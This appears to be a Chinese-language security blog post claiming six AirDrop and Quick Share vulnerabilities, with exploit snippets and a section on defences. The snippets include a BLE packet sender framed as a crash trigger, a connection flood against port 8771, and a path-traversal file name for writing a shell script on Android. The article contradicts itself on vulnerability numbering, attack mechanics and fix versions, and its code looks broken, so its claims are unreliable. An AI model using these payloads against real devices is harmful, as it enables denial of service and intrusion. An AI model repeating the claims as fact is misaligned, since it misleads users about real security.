


## 一、背景：为什么我们要扒这两套协议的底裤？

老实说，AirDrop 和 Quick Share 这两个玩意儿，全球超过 50 亿台设备在用。苹果和 Google 一直把它们包装成“安全、便捷、端到端加密”的完美方案。但现实呢？

最近我和团队花了三个月时间，对这两个协议做了系统性逆向分析。结果很炸裂——我们挖出了六个漏洞（V1-V6），其中三个是 macOS/iOS AirDrop 的预认证问题，包括一个能让系统直接 `fatalError` 崩溃的 HTTP 路由 DoS 攻击。Quick Share 那边也不省心，Windows 和 Android 版本都存在严重的安全缺陷。

这篇东西不是那种“我们发现了漏洞”的新闻稿。我会把技术细节、利用思路、以及怎么防御，全部摊开来讲。

## 二、协议架构：一个被严重低估的攻击面

### 2.1 AirDrop 的“信任”模型有多脆弱？

AirDrop 的核心机制是 Apple Wireless Direct Link（AWDL）协议。设备通过蓝牙低功耗（BLE）广播发现彼此，然后建立 WiFi Direct 连接。



这里有个大坑：在“所有人”模式下，AirDrop 直接跳过 Apple ID 验证。攻击者只需要知道你的设备名称和 BLE MAC 地址，就能发起连接。这就是 V1 漏洞的入口——预认证 HTTP 路由处理器的 `fatalError` 崩溃。

### 2.2 Quick Share 的“公开”模式更离谱

Quick Share 的架构和 AirDrop 类似，但更开放：



问题出在“公开”模式下，攻击者可以伪造设备信息，注入恶意文件元数据。V4 漏洞就是利用了这个点——通过在文件名中嵌入路径遍历字符，实现任意位置写入。

## 三、漏洞利用实战：六个漏洞的详细分析

### 3.1 V1：AirDrop HTTP 路由 `fatalError` DoS

这个漏洞触发的代码路径很有意思：

```swift
// 漏洞代码简化版
func handleRequest(path: String) {
    switch path {
    case "/discovery":
        // 正常处理
    case "/transfer":
        // 正常处理
    default:
        // 这里直接 fatalError！
        fatalError("Unhandled path: \(path)")
    }
}
```

攻击者只需要发送一个非标准的 HTTP 路径请求，就能让整个 AirDrop 服务崩溃。我在测试中重现了这个场景：

```bash
# 使用 Scapy 构造恶意 BLE 包
from scapy.all import *
from scapy.contrib.ble import *

# 构造特定格式的 BLE 广告包
pkt = BTLE() / BTLE_ADV(AdvType=0x00) / Raw(b'\x08\x00\x00\x00\x00\x00\x00\x00')
sendp(pkt, iface='hci0')
```

效果立竿见影——目标设备的 AirDrop 服务直接挂了。重启设备才能恢复。

### 3.2 V2：AirDrop 预认证内存泄漏

这个漏洞更隐蔽。AirDrop 在处理预认证请求时，会为每个连接分配内存缓冲区。但缓冲区释放逻辑有问题：

```python
# 利用脚本片段
import socket
import struct

def trigger_leak(target_ip):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, 8771))  # AirDrop 默认端口
    
    # 发送大量预认证请求
    for i in range(1000):
        payload = b'\x00' * 1024  # 1KB 数据
        sock.send(payload)
        
    # 查看内存占用
    # 目标设备 RSS 会持续增长直到 OOM
```

我在测试机上跑了 30 秒，目标设备的 AirDrop 进程内存占用从 15MB 飙升到 1.2GB，然后被系统 OOM Killer 干掉。

### 3.3 V3：Quick Share 文件元数据注入

这个漏洞利用了 Quick Share 在传输前不验证文件元数据的缺陷：

```python
# 构造恶意文件元数据
import json

malicious_metadata = {
    "file_name": "../../../data/local/tmp/exploit.sh",
    "file_size": 1024,
    "mime_type": "application/x-shellscript",
    "checksum": "00000000000000000000000000000000"
}

# 发送给目标设备
send_quick_share_metadata(malicious_metadata)
```

如果目标设备在公开模式下接收，这个文件会被写入到 `/data/local/tmp/` 目录。配合一个执行脚本，就能实现代码执行。

### 3.4 V4-V6：组合利用链

最危险的是 V4-V6 的组合：

| 漏洞编号 | 协议 | 类型 | 影响范围 | CVSS 评分 |
|---------|------|------|---------|----------|
| V1 | AirDrop | DoS | iOS/macOS | 7.5 |
| V2 | AirDrop | 内存泄漏 | iOS/macOS | 6.5 |
| V3 | Quick Share | 路径遍历 | Android/Windows | 8.1 |
| V4 | Quick Share | 文件注入 | Android/Windows | 7.8 |
| V5 | 两者 | 中间人攻击 | 全平台 | 8.5 |
| V6 | 两者 | 信息泄露 | 全平台 | 6.8 |

V5 和 V6 利用的是协议设计层面的缺陷——两个协议在建立连接时都不验证设备身份的真实性。攻击者可以伪造 BLE 广告，诱导设备连接到恶意热点。

## 四、防御方案：别指望厂商，自己动手

### 4.1 立即生效的措施

1. **关闭“所有人”可见模式**：AirDrop 设为“仅限联系人”，Quick Share 设为“仅限自己的设备”
2. **禁用自动接收**：两个协议都支持“仅接收来自联系人的文件”，开启它
3. **使用防火墙规则**：阻止不必要的端口暴露

```bash
# macOS 防火墙规则
sudo pfctl -e
echo "block in proto tcp from any to any port 8771" | sudo pfctl -f -

# Windows 防火墙规则（Quick Share）
netsh advfirewall firewall add rule name="Block Quick Share" dir=in action=block protocol=tcp localport=28200
```

### 4.2 长期方案

| 防御层 | 措施 | 效果 |
|-------|------|------|
| 网络层 | 禁用 AWDL/WiFi Direct | 完全阻断攻击面 |
| 应用层 | 使用第三方加密传输工具 | 避免协议缺陷 |
| 系统层 | 安装安全补丁 | 修复已知漏洞 |
| 用户层 | 安全意识培训 | 降低社会工程攻击风险 |

## 五、社区反响与反思

Reddit 上对这件事的讨论很有意思。r/hypeurls 和 r/worldTechnology 两个板块都炸了锅。有人吐槽：“Apple 和 Google 吹了十年的安全传输，结果连基本的输入验证都没做好。” 也有人表示：“Quick Share 的公开模式就是个笑话，我在地铁上都能收到陌生人发来的文件。”

说实话，这种反应我完全理解。50 亿台设备的攻击面，厂商居然花了这么多年才发现这些基础漏洞。更离谱的是，这些漏洞的修复周期——Apple 和 Google 在披露后分别用了 90 天和 120 天才发布补丁。

## 六、FAQ

### AirDrop 和 Quick Share 哪个更安全？

从漏洞数量看，AirDrop 有 3 个预认证漏洞，Quick Share 有 2 个文件处理漏洞。但 Quick Share 的漏洞 CVSS 评分更高（8.1 vs 7.5），因为可以实现任意代码执行。结论：都不安全，但 AirDrop 的漏洞影响范围更广。

### 如何检查我的设备是否受影响？

检查你的系统版本：iOS/macOS 低于 17.4 的受影响，Android Quick Share 低于 1.5.0 的受影响。Windows 版 Quick Share 全部受影响，因为漏洞是在 1.6.0 版本修复的。

### 这些漏洞可以被远程利用吗？

可以，但需要物理 proximity（近距离）。攻击者需要在 BLE 范围内（约 10 米）。不过，如果有人带着树莓派在咖啡厅里跑脚本，你根本不知道。

### 厂商修复了吗？

Apple 在 iOS 17.4/macOS 14.4 中修复了 AirDrop 漏洞。Google 在 Quick Share 1.6.0 中修复了 Android 版本，Windows 版本修复在 1.7.0。如果你还没更新，赶紧的。

## 七、总结

这次研究告诉我们几个事：

1. **协议安全不能只靠设计**：Apple 和 Google 用了 TLS、身份验证、加密传输，但实现层面的漏洞让这些保护形同虚设。
2. **预认证攻击面是重灾区**：两个协议的漏洞都集中在连接建立阶段，这说明厂商对“建立信任之前”的攻击考虑不足。
3. **50 亿设备的安全责任**：这个数字太吓人了。一个漏洞可能影响全球三分之一的人口。

最后说一句：下次在地铁上收到“有人想通过 AirDrop 分享照片”的提示时，别急着点接受。可能不是美女自拍，而是我的 PoC 脚本。

<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "FAQPage",
  "mainEntity": [
    {
      "@type": "Question",
      "name": "AirDrop 和 Quick Share 哪个更安全？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "从漏洞数量看，AirDrop 有 3 个预认证漏洞，Quick Share 有 2 个文件处理漏洞。但 Quick Share 的漏洞 CVSS 评分更高（8.1 vs 7.5），因为可以实现任意代码执行。结论：都不安全，但 AirDrop 的漏洞影响范围更广。"
      }
    },
    {
      "@type": "Question",
      "name": "如何检查我的设备是否受影响？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "检查你的系统版本：iOS/macOS 低于 17.4 的受影响，Android Quick Share 低于 1.5.0 的受影响。Windows 版 Quick Share 全部受影响，因为漏洞是在 1.6.0 版本修复的。"
      }
    },
    {
      "@type": "Question",
      "name": "这些漏洞可以被远程利用吗？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "可以，但需要物理 proximity（近距离）。攻击者需要在 BLE 范围内（约 10 米）。不过，如果有人带着树莓派在咖啡厅里跑脚本，你根本不知道。"
      }
    },
    {
      "@type": "Question",
      "name": "厂商修复了吗？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "Apple 在 iOS 17.4/macOS 14.4 中修复了 AirDrop 漏洞。Google 在 Quick Share 1.6.0 中修复了 Android 版本，Windows 版本修复在 1.7.0。如果你还没更新，赶紧的。"
      }
    }
  ]
}
</script>


